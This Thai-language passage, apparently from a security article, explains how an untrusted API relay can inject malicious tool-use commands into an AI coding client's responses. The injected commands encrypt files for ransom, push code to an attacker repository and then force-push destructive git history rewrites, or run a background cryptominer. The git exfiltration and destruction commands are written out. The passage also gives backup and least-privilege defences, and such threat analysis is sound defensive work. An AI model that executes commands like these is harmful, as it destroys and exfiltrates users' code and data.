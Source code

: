 ### การวิเคราะห์ขั้นตอนความเสี่ยง

กระบวนการดักจับข้อมูลคล้ายกับการรับข้อมูล แต่มีเป้าหมาย "ทำลาย" แทน "รับ" ในขั้นตอนสุดท้าย

#### วิธีที่หนึ่ง: การเข้ารหัสไฟล์

วิธีนี้คือความเสี่ยงแบบดั้งเดิมที่ถูกปรับใช้ในยุค AI

1. **อินเจคคำสั่งเข้ารหัส**: บริการรีเลย์ที่ไม่น่าเชื่อถืออินเจคคำสั่ง `tool_use` ที่ทำลายล้างในคำตอบที่โมเดลส่งคืน เช่น คำสั่ง `execute_shell` ที่มีเนื้อหาคือการค้นหาไฟล์บนฮาร์ดดิสก์ผู้ใช้ โดยใช้ `openssl` หรือเครื่องมือเข้ารหัสอื่นๆ เพื่อเข้ารหัสไฟล์ประเภทเฉพาะ (เช่น `.js`, `.py`, `.go`, `.md`) และลบไฟล์เดิม
2. **ไคลเอนต์รัน**: ตัวดำเนินการ Tool Use ของไคลเอนต์รันคำสั่งเหล่านี้โดยผู้ใช้ไม่รู้ตัว
3. **แสดงข้อความเฉพาะ**: เมื่อการเข้ารหัสเสร็จสิ้น สามารถอินเจคคำสั่งสุดท้ายเพื่อเปิดไฟล์หรือแสดงข้อความเฉพาะในเทอร์มินัล โดยขอให้ผู้ใช้ติดต่อเพื่อกู้คืนข้อมูล

#### วิธีที่สอง: การควบคุมที่อยู่เก็บโค้ด

เป็นการโจมตีที่ตรงจุดสำหรับนักพัฒนา มีความเสียหายรุนแรงมาก

1. **อินเจคคำสั่ง Git**: บริการรีเลย์ที่ไม่น่าเชื่อถืออินเจคชุดคำสั่ง `tool_use` ที่เกี่ยวข้องกับ `git`
2. **สำรองโค้ด**: ขั้นตอนแรก ทำให้โค้ดเงียบๆ ถูกส่งไปยังที่อยู่เก็บโค้ดส่วนตัวของผู้โจมตี `git remote add backup <third_party_repo_url>` จากนั้น `git push backup master`
3. **ทำลายโค้ด**: ขั้นตอนที่สอง ดำเนินการที่ทำลายล้าง `git reset --hard <a_very_old_commit>` เพื่อย้อนประวัติการแก้ไขท้องถิ่นไปยังเวอร์ชันที่เก่ามาก แล้ว `git push origin master --force` เพื่อบังคับอัปโหลดไปยังที่อยู่เก็บโค้ดระยะไกลของผู้ใช้ (เช่น GitHub) สิ่งนี้จะทำลายประวัติการแก้ไขทั้งหมดที่อยู่บนเซิร์ฟเวอร์ระยะไกล
4. **ดำเนินการต่อ**: ผู้ใช้จะพบว่าทั้งที่อยู่เก็บโค้ดท้องถิ่นและระยะไกลถูกลบทิ้ง ผู้ดำเนินการสามารถใช้ข้อมูลติดต่อที่เตรียมไว้ก่อนหน้า (หรือสร้างไฟล์ข้อมูลในโค้ด) เพื่อเจรจาเรื่องการกู้คืนข้อมูล

ความรุนแรงของกระบวนการนี้อยู่ที่มันไม่เพียงทำลายพื้นที่ทำงานท้องถิ่น แต่ยังอาจทำลายการสำรองข้อมูลระยะไกล ซึ่งเป็นหายนะสำหรับนักพัฒนาที่ไม่มีนิสัยสำรองข้อมูลที่อื่น

### วิธีป้องกันการโจมตีข้อมูล

นอกจากมาตรการป้องกันที่กล่าวมาแล้ว สำหรับความเสี่ยงในการดักจับข้อมูล ยังต้อง:

* **ทำสำรองข้อมูลอย่างเหมาะสม**: สำรองข้อมูลสำคัญและที่อยู่เก็บโค้ดเป็นประจำที่หลายแห่ง และควรเป็นออฟไลน์ ซึ่งเป็นแนวป้องกันสุดท้ายต่อความเสี่ยงข้อมูลทุกรูปแบบ
* **หลักการสิทธิ์ต่ำสุด**: ผู้ใช้ที่รันไคลเอนต์ (โดยเฉพาะปลั๊กอิน IDE) ควรมีสิทธิ์ระบบต่ำที่สุดเท่าที่จำเป็น เพื่อป้องกันไม่ให้มันสามารถเข้ารหัสทั้งฮาร์ดดิสก์หรือดำเนินการคำสั่งระบบสำคัญ

## ความเสี่ยงเวกเตอร์ขั้นสูงเพิ่มเติม

นอกเหนือจากการรับข้อมูลและดักจับข้อมูลโดยตรง บริการรีเลย์ที่ไม่น่าเชื่อถือยังสามารถใช้ตำแหน่งตัวกลางเพื่อโจมตีขั้นสูงและแอบแฝงมากยิ่งขึ้น

### วิธีที่สาม: การยึดทรัพยากร (Resource Hijacking)

เป้าหมายของผู้ดำเนินการไม่จำเป็นต้องเป็นข้อมูลผู้ใช้ แต่อาจเป็นทรัพยากรการคำนวณของผู้ใช้ ซึ่งเป็นความเสี่ยงแบบอาศัยอยู่ระยะยาว

1. **อินเจคคำสั่งขุดเงินดิจิทัล**: เมื่อผู้ใช้ส่งคำขอปกติ ผู้ให้บริการรีเลย์อินเจคคำสั่ง `execute_shell` ในคำตอบที่ตอบกลับ
2. **รันในพื้นหลัง**: คำสั่งนี้จะดาวน์โหลดโปรแกรมขุดเงินดิจิทัลเงียบๆ จากเซิร์ฟเวอร์ผู้โจมตี และใช้ `nohup` หรือเทคโนโลยีคล้ายกันเพื่อรันในพื้นหลังโดยไม่สังเกตเห็น
3. **แฝงตัวระยะยาว**: ผู้ใช้อาจรู้สึกเพียงว่าคอมพิวเตอร์ช้าลงหรือพัดลมดังขึ้น ยากที่จะสังเกตเห็นกระบวนการที่ทำงานอยู่เบื้องหลัง ผู้ดำเนินการสามารถใช้ทรัพยากร CPU/GPU ของผู้ใช้เพื่อทำกำไรระยะยาว
